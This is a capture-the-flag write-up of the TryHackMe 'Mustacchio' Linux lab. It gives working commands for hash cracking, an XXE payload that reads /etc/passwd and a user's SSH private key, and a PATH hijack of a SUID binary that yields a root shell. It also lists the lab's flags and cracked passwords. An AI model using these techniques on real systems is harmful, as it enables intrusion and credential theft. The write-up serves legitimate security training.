


---

- **Target:** THM Mustacchio - Linux
- **Author:** sonyahack1
- **Date:** 09.03.2025
- **Difficulty:** Easy

---

## Table of Contents
- [Summary](#summary)
- [Recon](#recon)
- [Entry Point](#entry-point)
- [XXE Exploitation](#xxe-exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Summary

| Stage         | Info                                                            	  	 |
|---------------|--------------------------------------------------------------------------------|
| Entry Point   | **users.bak** file in **custom/** directory                     	  	 |
| User Flag     | `flag{62d77a4d5f97d47c5aa38b3b2651b831}`                        	  	 |
| Root Flag     | `flag{3223581420d906c4dd1a5f9b530393a5}`                        	  	 |
| Credentials   |  1) admin panel: **admin**:**bulldog19**			  	 	 |
|		|  2) Barry: **ssh via private key** ; passphrase: **urieljames** 		 |
---

> add ip address in /etc/hosts:

```bash

echo '10.10.124.65 mustacchio.thm' | sudo tee -a /etc/hosts

```
---

## Recon

> start Nmap TCP-scan:

```bash

nmap -sVC -p- -vv -T5 mustacchio.thm -oN Mustacchio_TCP_scan_Nmap

```

> Result:

```bash

22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC2WTNk2XxeSH8TaknfbKriHmaAOjRnNrbq1/zkFU46DlQRZmmrUP0uXzX6o6mfrAoB5BgoFmQQMackU8IWRHxF9YABxn0vKGhCkTLquVvGtRNJjR8u3BUdJ/wW/HFBIQKfYcM+9agllshikS1j2wn28SeovZJ807kc49MVmCx3m1OyL3sJhouWCy8IKYL38LzOyRd8GEEuj6QiC+y3WCX2Zu7lKxC2AQ7lgHPBtxpAgKY+txdCCEN1bfemgZqQvWBhAQ1qRyZ1H+jr0bs3eCjTuybZTsa8aAJHV9JAWWEYFegsdFPL7n4FRMNz5Qg0BVK2HGIDre343MutQXalAx5P
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCEPDv6sOBVGEIgy/qtZRm+nk+qjGEiWPaK/TF3QBS4iLniYOJpvIGWagvcnvUvODJ0ToNWNb+rfx6FnpNPyOA0=
|   256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGldKE9PtIBaggRavyOW10GTbDFCLUZrB14DN4/2VgyL
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
| http-robots.txt: 1 disallowed entry
|_/
8765/tcp open  http    syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Mustacchio | Login
|_http-server-header: nginx/1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
> I see open ports 22,80,8765. There is the main web page **Mustacchio Home** on Apache 2.4.18
> and the login page **Mustacchio Login** on nginx 1.10.3. It all works on an **Ubuntu** server.

> I'll scan the domain with the **whatweb** utility. Maybe there is some CMS:

```bash

whatweb http://mustacchio.thm

```
> Result:

```bash

http://mustacchio.thm [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.124.65],
Script[text/javascript], Title[Mustacchio | Home]

```
> nothing interesting.

> on port 80 main page **mustacchio**:


> on 8765 port login form to the administration panel:


> **Note:** The standard login and password do not work. I need to look for the some credentials.

> I start scanning directories via **ffuf**. I look for interesting directories or files:

```bash

ffuf -u 'http://mustacchio.thm/FUZZ' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -ic -c -e .php,.txt,.html,.bak

```

> Result:



> From the scan results there are directories such as **images** , **custom** , **fonts** - these are directly resources
> that are loaded from the server for display on the page (pictures, fonts, scripts, styles, etc.).

> I go to the **custom** directory and there in **js**:


> I see here **users.bak** - its our **entry point**.

---
## Entry Point

> There are two files in this directory: **mobile.js** and **users.bak**. But I'm specifically interested in the second one.

> The **.bak** extension does not refer to any one file type, but is a general convention for designating a backup copy of
> something. These can be: **.txt** , **.db** , **.php** , **.js** files, etc. Such files can potentially contain sensitive
> data.

> I download the file to my machine and check its type via **file**:


```bash

file users.bak

users.bak: SQLite 3.x database, last written using SQLite version 3034001, file counter 2, database pages 2, cookie 0x1, schema 4, UTF-8, version-valid-for 2

```

> The file type indicates that this is a **SQLite** DBMS.

> It supports SQL syntax that is similar to PostreSQL and MysQL, so I can work with this DBMS as with other regular databases.
> For example, view the contents of existing tables:

```bash

sqlite3 users.bak

SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.

sqlite> .tables
users

sqlite> select * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4bc5f4b

sqlite>

```

> Also for convenience I can upload the database dump to a .sql file:

```bash

sqlite3 users.bak .dump > dump.sql

cat dump.sql

PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users(username text NOT NULL, password text NOT NULL);
INSERT INTO users VALUES('admin','1868e36a6d2b17d4c2745f1659433a54d4bc5f4b');
COMMIT;

```
> So i got the user data **admin** or more precisely the **hash** of his password: ```admin : 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b```
> Most likely these are the credentials from the admin panel previously discovered on port **8765**.

> I save the hash to a file and run it through **hashcat** to identify the password:

```bash

echo '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b' > hast.txt

hashid hash.txt
--File 'hash.txt'--
Analyzing '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b'
[+] SHA-1
[+] Double SHA-1
[+] RIPEMD-160
[+] Haval-160
[+] Tiger-160
[+] HAS-160
[+] LinkedIn
[+] Skein-256(160)
[+] Skein-512(160)
--End of file 'hash.txt'-- 


sudo hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt --force

```

> Result:

```bash

1868e36a6d2b17d4c2745f1659433a54d4bc5f4b:bulldog19

```

> I get password from **admin** user: ```admin:bulldog19```

> I log in to the admin panel with these details:


> checking the source code of this page:


> something like that. There is a message left as a comment ```Barry, you can now SSH in using your key!```
> That is there is a certain **Barry** in the system and he can connect to the system using his SSH key. Ok.

> There is also another **.bak** file specified in the tags ```<script></script>```:

```none

/auth/dontforget.bak

```

> Download **dontforget.bak** file and checking his type:

```bash

file dontforget.bak

dontforget.bak: XML 1.0 document, Unicode text, UTF-8 text, with very long lines (873), with CRLF line terminators

cat dontforget.bak

<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done
       something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life.
       Life is so precious because it is short and you are being so careless that you do not realize it until now since this void
       paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using
       your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph
       and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time,
       you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment> 

```

> There is nothing interesting in the message, but there is the **XML structure** of the message itself (and this is very important).

> The admin panel page has a form for adding a comment. I send a request to **BurpSuite** for checking:


```html

POST /home.php HTTP/1.1
Host: mustacchio.thm:8765
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Origin: http://mustacchio.thm:8765
Connection: keep-alive
Referer: http://mustacchio.thm:8765/home.php
Cookie: PHPSESSID=ld606n55bogig***********
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```html

xml=sonyahack1

```
### XXE exploitation

> I see that the POST request is sent with a body in which the **xml** parameter sends an **XML fragment**.
> That is any comment sent in this form has the **xml** structure.

> There may be an **XXE vulnerability** if the server side parses this parameter as an XML document and allows external entities.
> This vulnerability occurs when the server parses the XML content as is without any verification.

> For an example of dangerous code in php:

```php

$xml = $_POST['xml'];
$doc = new DOMDocument();
$doc->loadXML($xml);

```
> or in python:

```python

xml = request.POST['xml']
doc = parseString(xml) 

```

> The point is that the server receives an XML payload from the user then parses it as is with all the strings and executes the commands in the transferred
> entities. Reads any file (or executes) on the server and returns its contents as XML back to the user.

> there is an example of **XXE payload** for vulnerability testing on **PortSwigger**:


> I make the same message structure as in the **dontforget.bak** file. Also, I need to apply url encoding. For convenience, I use the extension
> in BurpSuite - **Hackvertor** and wrap my payload in ```<@urlencode></@urlencode>```:

```html

xml=<@urlencode><?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
</@urlencode>

```

> Result:


> it's work. i get **/etc/passwd** file from server. Ok.

> i change the entity file to **/home/barry/.ssh/id_rsa** since **Barry** has his own SSH key and repeating the request

> Result:


> I copy the key and try to connect to the system via SSH:

```bash

ssh -i private_key barry@10.10.124.65
Enter passphrase for key 'private_key':

```
> i need the passphrase...

> I extract the hash of the passphrase from the private key and pass it through **john**:

```bash

ssh2john private_key > private_key_hash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt private_key_hash.txt

```

> Result

```bash

Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (private_key)

```

> i get passphrase for private key: **urieljames**

> i connect via ssh and get first flag:

```bash

ssh -i private_key barry@10.10.124.65

Enter passphrase for key 'private_key':

Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-210-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

34 packages can be updated.
16 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

barry@mustacchio:~$

barry@mustacchio:~$ cat user.txt

62d77a4d5f97d47c5aa38b3b2651b831

barry@mustacchio:~$

```
> user flag: ```62d77a4d5f97d47c5aa38b3b2651b831```

---

## Privilege Escalation:

> i am searching by **setuid files**:


```bash

find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

```

> Result:

```bash

-rwsr-xr-x 1 root root 84120 Apr  9  2019 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14864 Mar 27  2019 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 110792 Feb  8  2021 /usr/lib/snapd/snap-confine
-rwsr-xr-x 1 root root 428240 May 26  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 54256 Mar 26  2019 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Mar 27  2019 /usr/bin/pkexec
-rwsr-xr-x 1 root root 71824 Mar 26  2019 /usr/bin/chfn
-rwsr-xr-x 1 root root 39904 Mar 26  2019 /usr/bin/newgrp
-rwsr-xr-x 1 root root 40432 Mar 26  2019 /usr/bin/chsh
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 136808 Jan 20  2021 /usr/bin/sudo
-rwsr-xr-x 1 root root 32944 Mar 26  2019 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 75304 Mar 26  2019 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 16832 Jun 12  2021 /home/joe/live_log
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 27608 Jan 27  2020 /bin/umount
-rwsr-xr-x 1 root root 40152 Jan 27  2020 /bin/mount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 40128 Mar 26  2019 /bin/su

```

> I see **/home/joe/live_log** - which is not a standard setuid file. Very interesting.

```bash

file /home/joe/live_log

live_log: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2,
BuildID[sha1]=6c03a68094c63347aeb02281a45518964ad12abe, for GNU/Linux 3.2.0, not stripped

```

> from the output of **file** it is clear that the **SUID flag** is set - that is when this executable file is launched,
> the process receives the owner's privileges (in this case - **root privileges**) without the need to enter a password.

> i start **live_log**:

```bash

./live_log

10.8.119.24 - - [11/May/2025:15:19:28 +0000] "POST /home.php HTTP/1.1" 302 3863 "http://mustacchio.thm:8765/home.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
10.8.119.24 - - [11/May/2025:15:19:28 +0000] "GET /index.php HTTP/1.1" 200 728 "http://mustacchio.thm:8765/home.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
10.8.119.24 - - [11/May/2025:15:19:52 +0000] "POST /auth/login.php HTTP/1.1" 302 5 "http://mustacchio.thm:8765/index.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
10.8.119.24 - - [11/May/2025:15:19:52 +0000] "GET /home.php HTTP/1.1" 200 1077 "http://mustacchio.thm:8765/index.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
10.8.119.24 - - [11/May/2025:15:26:07 +0000] "GET /home.php HTTP/1.1" 200 1077 "http://mustacchio.thm:8765/index.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"
10.8.119.24 - - [11/May/2025:15:26:11 +0000] "GET /home.php HTTP/1.1" 200 1077 "http://mustacchio.thm:8765/index.php" "Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0"

```
> I see that this is logging of actions on the **Mustacchio** website: clicking on links, loading pages, sending forms, any activity etc.

> I'll look through **strings** all readable ASCII or UTF-8 strings that are in this executable file to understand how it works:

```bash

strings /home/joe/live_log

```

> The output is large, but I was interested in the presence of the **tail** utility which is used to output the last lines of a file.



> In this case, the command **tail -f /var/log/nginx/access.log** will output the last lines from the **access** log when logging actions.

> The problem is that the command for this executable file is written **without specifying the absolute path** - that is not **/usr/bin/tail**.
> this is the right vector for **privilege escalation**

```bash

barry@mustacchio:~$ which tail

/usr/bin/tail

```
> This means that the program when executed will search for this utility through the environment variable **$PATH** of the current user session and not directly.

```bash

barry@mustacchio:~$ echo $PATH

/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

> It's very important because the **$PATH** variable is in the user session and is not a system setting, so the user almost always has rights to edit such variables.

> I create a file **tail** in the home directory **/home/barry** with a copy of **/bin/bash** and make it executable:

```bash

#!/bin/bash

/bin/bash -c 'cp /bin/bash /tmp/privshell; chmod +s /tmp/privshell'

```

```bash

barry@mustacchio:~$ chmod +x tail

```

> I replace the path of the environment variable $PATH and write the path to my **tail** file at the beginning:

```bash

barry@mustacchio:~$ export PATH=/home/barry:$PATH

barry@mustacchio:~$ echo $PATH

/home/barry:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

> I run **live_log** . When executed the program will execute my **tail** file first with root privileges then
> copy **/bin/bash** to **/tmp** directory and set the **setuid** flag to preserve root privileges.


> I run the copied shell with the **-p** flag to save all settings with root privileges
> I get the root flag.

```bash

barry@mustacchio:~$ cd /tmp/
barry@mustacchio:/tmp$ ./privshell -p
privshell-4.3# id
uid=1003(barry) gid=1003(barry) euid=0(root) egid=0(root) groups=0(root),1003(barry)
privshell-4.3# cat /root/root.txt 
3223581420d906c4dd1a5f9b530393a5
privshell-4.3# 

```
> root flag - ```3223581420d906c4dd1a5f9b530393a5```

---

## Conclusion

> The machine was fully compromised by chaining together a leaked backup file, an XXE vulnerability, and a misconfigured SUID binary, leading to root access.
